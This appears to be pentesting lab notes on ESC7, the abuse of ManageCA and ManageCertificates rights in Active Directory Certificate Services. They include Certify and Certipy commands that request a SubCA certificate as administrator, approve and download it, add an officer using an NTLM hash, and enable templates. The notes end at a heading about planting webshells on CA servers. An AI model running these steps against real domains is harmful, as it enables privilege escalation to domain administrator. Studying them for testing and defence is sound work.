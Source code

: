 ## Vulnerable Certificate Authority Access Control Roles (`ManageCA` and `ManageCertificate`) ##

#### What's running under the hood ####
- A certificate authority itself has a set of permissions that secure various **CA actions**.
- The two main rights here are the `ManageCA` right and the `ManageCertificates` right, which translate to the “CA administrator” and “Certificate Manager”.

#### What the attack is about ####
- `ManageCA`: allows a user to change the CA’s configuration to turn on SAN (Subject Alternative Name) to all the templates enabling the `EDITF_ATTRIBUTESUBJECTALTNAME2` attribute allowing for the [[ESC6]] attack path.
- `ManageCertificates`: allows a user to issue certificates that are pending approval. We can approve such certificates using the ManageCA rights.
- If the attacker does not have the `ManageCertificates` right, he/she can just add themselves as a new officer using existing `ManageCA` rights, since an officer is a user with the `ManageCertificates` rights.
- If the Certificate-based Authentication (CBA) patches are installed, the normal [[ESC6]] attack using `ManageCA` rights can’t be used (because of strong certificate mapping checks).

### Enumeration ###
1. **Certify**
`PS C:\ADCS\Auditor> .\Certify.exe cas`

### Exploitation ###
#### 1. ESC7.1 - Approve a failed Certificate Request ####
**Certify**
1. Create a Failed Request
`PS C:\ADCS\Auditor> Certify.exe request /ca:CB-CA.CB.CORP\CB-CA /template:subCA /altname:administrator /domain:internalcb.corp /sidextension:S-1-5-21-2177854049-4204292666-1463338204-500`
2. Approve the Failed Request
`PS C:\ADCS\Auditor> Certify-esc7.exe issue /ca:CB-CA.CB.CORP\CB-CA /id:58`
3. Download Approved Request
`PS C:\ADCS\Auditor> Certify-esc7.exe download /ca:CB-CA.CB.CORP\CB-CA /id:58`

**Certipy**
- If we don’t have the ManageCertificates right, the attacker can add themselves as a new officer using existing `ManageCA` rights.
```
┌──(root💀0xDe4dBe3f)-[/home/pri3st/Pentesting/AlteredSecurity/CESP-ADCS]
└─# certipy ca -u internaluser@internalcb.corp -hashes 'aad3b435b51404eeaad3b435b51404ee:6ca67841f08c8c73baf4d93ca16e7760' -ca 'CB-CA' -dc-ip 172.16.203.1 -target cb-ca.cb.corp -add-officer internaluser
```

- If the SubCA template too isn't enabled, the attacker can enable it using existing `ManageCA` access rights.
```
┌──(root💀0xDe4dBe3f)-[/home/pri3st/Pentesting/AlteredSecurity/CESP-ADCS]
└─# certipy ca -u internaluser@internalcb.corp -hashes 'aad3b435b51404eeaad3b435b51404ee:6ca67841f08c8c73baf4d93ca16e7760' -ca 'CB-CA' -dc-ip 172.16.203.1 -target cb-ca.cb.corp -enable-template 'SubCA'
```
#### 2. ESC7.1 - AbusE CRL Distribution Points (CDPs) and usE them to deploy SYSTEM webshells to CA servers respectively ####